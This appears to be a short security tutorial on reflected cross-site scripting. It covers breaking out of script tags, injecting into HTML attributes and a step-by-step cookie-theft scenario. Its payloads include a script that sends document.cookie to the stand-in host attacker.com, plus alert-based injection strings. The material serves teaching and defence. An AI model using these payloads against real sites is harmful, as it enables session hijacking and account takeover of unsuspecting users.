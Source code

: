 ### *What is reflected XSS?*
This type of XSS attack happens when an attacker injects a malicious script into a web page's URL, which is then reflected back to the user and executed within the user's browser. The injected script is usually part of the request sent to the server (e.g., in the URL parameters) and immediately reflected back in the server's response, which is why it's called "reflected" XSS.
### *Injecting inside JavaScript code*
In these case your input is going to be reflected inside the JavaScript code of a `.js` file or between `<script>...</script>` tags or between HTML events that can execute JavaScript code or between attributes that accepts the `javascript:` protocol.
### *Escaping `<script>` tag*
If your code is inserted within `<script> [...] var input = 'reflected data' [...] </script>` you could easily escape closing the `**<script>**` tag:
`</script><img src=1 onerror=alert(document.domain)>`

> Note that in this example we haven't closed the single quote, but that's not necessary as the browser first performs HTML parsing to identify the page elements including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts.
### *Stealing user's cookie with reflected XSS*
**Identify the Vulnerability**
First, an attacker needs to find a point in the application where user input is reflected back without proper sanitization. Let's say there's a vulnerable search function at `https://insecure-website.com/search?term=gift`
that reflects the `term` parameter back to the user without escaping.
    
**Craft the Malicious URL**
The attacker can create a malicious URL that includes a script to steal the user's cookie. Here's an example:
```
https://insecure-website.com/search?term=<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie;</script>
```

In this example, the JavaScript code redirects the user to the attacker's website, appending the user's cookies as a query parameter.
    
**Lure the Victim**
The attacker must then get the victim to visit the crafted URL. This could be done through a phishing email, a link on a forum, or other social engineering techniques.
    
**Steal the Cookie**
If the victim clicks on the malicious link, the script executes in their browser, sending the cookie to the attacker's website.
    
**Attacker's Server-Side Code**
On the attacker's server, they could create a script to collect and store the cookies. 

**Use the Stolen Cookie**
With the victim's cookie, the attacker might impersonate the victim on the original site, gaining access to their account or performing actions on their behalf.

> Modern browsers implement security measures such as the HttpOnly flag for cookies, making them inaccessible via JavaScript. This would mitigate the risk of this specific attack, but it's not a substitute for proper input validation and escaping within the application itself.
### *XSS is being reflected in HTML attribute*
There could an XSS payload being reflected within an HTML attribute, in this example the payload was being reflected in **value** attribute in the search input. 

The request being made
`GET /?search=fghfgh\"+onmouseover="alert(1)`
	
Is being reflected inside the input tag
`<input type=text placeholder='Search the blog...' name=search value="fghfgh\" onmouseover="alert(1)">`
### *Resources*
- https://portswigger.net/support/exploiting-xss-injecting-into-tag-attributes